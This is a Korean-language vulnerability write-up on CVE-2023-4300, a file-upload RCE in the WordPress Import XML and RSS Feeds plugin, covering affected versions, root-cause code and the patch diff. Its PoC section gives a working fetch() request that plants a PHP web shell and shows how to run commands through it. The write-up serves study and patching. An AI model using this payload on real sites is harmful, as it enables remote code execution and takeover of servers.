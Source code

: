 ```yaml
---
title: "[CVE-2023-4300] 취약점 분석 보고서"
description: "Import XML and RSS Feeds에서 발생하는 RCE 취약점"
author: bde574786
date: 2024-11-18 10:51:00 +0900
categories: [One-Day 분석, WordPress]
tags: [WordPress, CVE, RCE]
---
```


<br>
## **1. Description**

CVE-2023-4300은 WordPress **Import XML and RSS Feeds** 플러그인에서 발생하는 **RCE 취약점**이다.  
업로드된 파일의 파일 확장자를 제대로 필터링하지 않아 공격자가 악성 PHP 파일을 업로드할 수 있고 결과적으로 권한이 없는 사용자가 WordPress 사이트에서 원격 코드를 실행할 수 있게 된다.

관련 플러그인 정보이다.
[Import XML and RSS Feeds Plugin — WordPress.com](https://wordpress.com/plugins/import-xml-feed)

<br>
## **2. Environment Setting**

### **2.1 Affected Version**

- PHP < 8.0
- Import XML and RSS Feeds < 2.1.4

> 본 분석은 XAMPP 7.4.29와 PHP 7.4.29가 포함된 환경에서 진행되었으며 해당 버전의 XAMPP는 [여기](https://sourceforge.net/projects/xampp/files/XAMPP%20Windows/7.4.29/)서 다운로드 할 수 있다. WordPress 버전은 분석에 영향을 미치지 않으므로, 설치 과정에 대한 자세한 설명은 생략한다.
> 

WordPress 플러그인 Import XML and RSS Feeds 2.1.3 버전으로 설치하고 활성화 한다.
플러그인을 활성화하면 좌측 설정 탭에서 Import Feed  항목을 확인할 수 있다.
![image.png](assets/posts/one-day/2024-11-18/img-001.png)

<br>
## **3. PoC**

해당 CVE의 PoC를 트리거하기 위해서는 관리자의 권한이 필요하다.

**3.1 관리자 권한으로 플러그인 경로 접근**

![image.png](assets/posts/one-day/2024-11-18/img-002.png)

**3.2 브라우저 콘솔을 열어 PHP 웹 쉘 파일 업로드**

```jsx
await fetch('/wordpress/wp-admin/admin-ajax.php', {
    credentials: 'include',
    method: 'POST',
    headers: {
        'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: `action=moove_save_import_template&type=upload&extension=php&file=<?php+system($_GET['cmd']);?>&form_data[post_title]=RCE&nonce=${document.querySelector('input[name=moove_xml_admin_nonce]').value}`
})
```

<br>
파일 업로드 취약점이 있기 때문에 PHP 파일이 정상적으로 업로드되었음을 확인할 수 있다.

![image.png](assets/posts/one-day/2024-11-18/img-003.png)

**3.3 최근 생성한 템플릿 설정 페이지를 클릭**

Type the file URL 필드에서 업로드한 웹 쉘의 경로를 얻을 수 있다.

![image.png](assets/posts/one-day/2024-11-18/img-004.png)

**3.4 URL을 복사하여 웹 쉘 파일을 실행하고 cmd에 명령어를 전달**

RCE가 발생하면서 임의의 시스템 명령이 모두 실행되는 것을 알 수 있다.

![image.png](assets/posts/one-day/2024-11-18/img-005.png)

<br>
## **4. Analysis**

[CVE-2023-4300/import-xml-feed/moove-actions.php at main · bde574786/CVE-2023-4300](https://github.com/bde574786/CVE-2023-4300/blob/main/import-xml-feed/moove-actions.php)

1. 입력값 검증 부족
    - `moove_save_import_template` 함수에서 사용자가 전송한 file 데이터를 `sanitize_text_field`로 확장자 검증을 하고 있다.
    - `sanitize_text_field`는 HTML 태그나 특수 문자를 제거하지만, 확장자 형식의 유효성 검증에는 적합하지 않아 php와 같은 실행 가능한 파일 확장자를 업로드 할 수 있다.
        
        ```php
        if ( $_POST && is_array( $_POST ) ) :
        				$type = sanitize_text_field( $_POST['type'] );
        				$extension = sanitize_text_field( $_POST['extension'] );
        				$filename = uniqid( strtotime() );
        				if ( $type === 'upload' ) :
        					$xml = wp_unslash( $_POST['file'] );
        					$filename = $filename . "." . $extension;
        					$target_dir = dirname( __FILE__ ) . "/uploads/" . $filename;
        					file_put_contents( $target_dir, $xml, FILE_APPEND | LOCK_EX );
        ```
        

2. 메타데이터에 외부 접근 가능한 URL 저장
    - `moove_save_import_template` 함수에서 `plugins_url`으로 url을 생성하고 있다.
    - `filename` 변수는 `plugins_url` 함수를 통해 디렉토리 내의 업로드된 파일에 접근할 수 있는 전체 url이 저장된다.
    - `filename`은 ‘import_xml_url’이라는 키 이름으로 특정 게시물의 메타 데이터로 저장된다.
        
        ```php
        $filename = plugins_url( basename( dirname( __FILE__ ) ) ) . '/uploads/' . $filename;
        add_post_meta( $post_id, 'import_xml_url', $filename );
        ```
        
    
3. 파일 저장 경로 공개
    - 특정 게시물의 메타 데이터는 `template_view.php` 파일에서 사용자에게 보여진다.
    - 해당 메타데이터에 저장된 url을 통해 업로드한 파일에 접근이 가능했고, 결과적으로 RCE가 가능했다.
        
        ```php
        'feedurl' => get_post_meta( $template_id, 'import_xml_url', true ),
        ```
        
    
<br>
## **5. Patch Diff**

WordPress 플러그인들은 GitHub 대신 Trac과 Subversion(SVN)을 통해 관리되는 경우가 많으므로 svn 명령어를 사용하여 Trac의 코드 변경사항을 확인할 수 있다.

```bash
svn checkout https://plugins.svn.wordpress.org/import-xml-feed/tags/2.1.3
svn checkout https://plugins.svn.wordpress.org/import-xml-feed/tags/2.1.4
```

<br>
임시 디렉토리에 각 버전을 체크아웃한 후 확인한 변경 사항은 다음과 같다.

[Version 2.1.4 · bde574786/CVE-2023-4300@7205511](https://github.com/bde574786/CVE-2023-4300/commit/72055117358d184917b23c249435d35939817a77#diff-e0915d20b47f643113612da18cc245eac202485dd193731b6417df51b01ee214)

1. 권한 변경
    - moove_save_import_template 및 moove_delete_import_template 함수에서 기존의 edits_posts 권한이 manage_options 권한으로 변경
    - manage_options 권한은 edit_posts 보다 높은 권한이며 [Roles and Capabilities 문서](https://wordpress.org/documentation/article/roles-and-capabilities/)에서는 mange_options가 관리자 역할에게만 할당되는 고급 권한임을 명시하고 있음
2. 파일 확장자 허용 목록 추가
    - allowed_extensions 필터가 추가되어 XML과 RSS 확장자만 허용되도록 제한